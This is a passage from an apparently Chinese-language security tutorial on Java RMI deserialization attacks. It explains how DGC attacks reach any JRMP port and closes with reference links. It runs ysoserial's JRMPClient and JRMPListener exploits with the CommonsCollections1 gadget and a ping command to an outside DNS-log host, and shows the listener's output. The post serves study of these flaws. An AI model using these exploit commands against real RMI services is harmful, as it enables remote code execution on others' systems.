 运行成功触发 DNS 请求，如下-->

![alt text](20.png)

翻看 Ysoserial 中 ysoserial.exploit.JRMPClient 的实现是同一个思路，都使用 DGC 进行攻击，但原理还是有所不同。它的原理：
由于 Server 端与 Registry 端一般是在同一台机器，则使用 DGC 去攻击了 Registry 端监听端口，这么看马马虎虎算是一个对 Registry 端的攻击。换汤不换药，相当于给 ysoserial.exploit.RMIRegistryExploit 这种攻击方式从 RegistryImpl_Stub 换成了 DGCImpl_Stub。为什么可以这样？给出解释如下-->

DGC 通信和 RMI 通信在 Transport 层使用相同的处理逻辑，只是通过客户端写入的标记区分处理逻辑（如 RegistryImpl_Skel 或 DGCImpl_Skel），即 DGC 攻击可以泛化到任意 JRMP 协议端口（Registry 端监听端口、DGC 端监听端口、RegistryImpl_Stub 监听端口、DGCImpl_Stub 监听端口），没有写与 Server 端相关的监听端口，是因为它的 Stub 实现方式为动态代理实现，而不是重新实例化类，即无法被攻击。

挺简单的，这里直接用 Ysoserial 打了-->

```shell
java -cp ysoserial-all.jar ysoserial.exploit.JRMPClient 192.168.137.114 1099 CommonsCollections1 "ping 6y7d5.cxsys.spacestabs.top"
```

运行成功触发 DNS 请求，如下-->

![alt text](20.png)

关于攻击服务端的手法到此结束 🔚！

## 注册中心、DGC、服务端攻击客户端

上面已经依次演示过客户端攻击注册中心、服务端、DGC。那么注册中心、DGC、服务端攻击客户端无非就是镜像操作，且实战意义较少，不做演示。而还有一种攻击手法是打客户端的 StreamRemoteCall.executeCall(xxx)，即下图-->

![alt text](21.png)

这其实就是 Ysoserial 中 ysoserial.exploit.JRMPListener 的实现原理，尝试打一下：

```shell
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 "ping 6y7d5.cxsys.spacestabs.top"

* Opening JRMP listener on 1099
Have connection from /192.168.137.114:50264
Reading message...
Sending return with payload for obj [0:0:0, 0]
Closing connection
```

此时成功触发 DNS 请求，如下-->

![alt text](20.png)

关于攻击客户端的手法到此结束。文章也到此结束，关于 JEP290 的绕过、RMI 衍生出的 Gadgets 打二次反序列化等等之后有时间再更吧！

参考自：

[Java 中 RMI、JNDI、LDAP、JRMP、JMX、JMS那些事儿（上）](https://paper.seebug.org/1091/)

[RMI反序列化漏洞之三顾茅庐-攻击实现](https://halfblue.github.io/2021/11/02/RMI%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B9%8B%E4%B8%89%E9%A1%BE%E8%8C%85%E5%BA%90-%E6%94%BB%E5%87%BB%E5%AE%9E%E7%8E%B0/)

[基于Java反序列化RCE - 搞懂RMI、JRMP、JNDI](https://xz.aliyun.com/t/7079)

[Java安全学习——利用RMI进行攻击](https://goodapple.top/archives/520)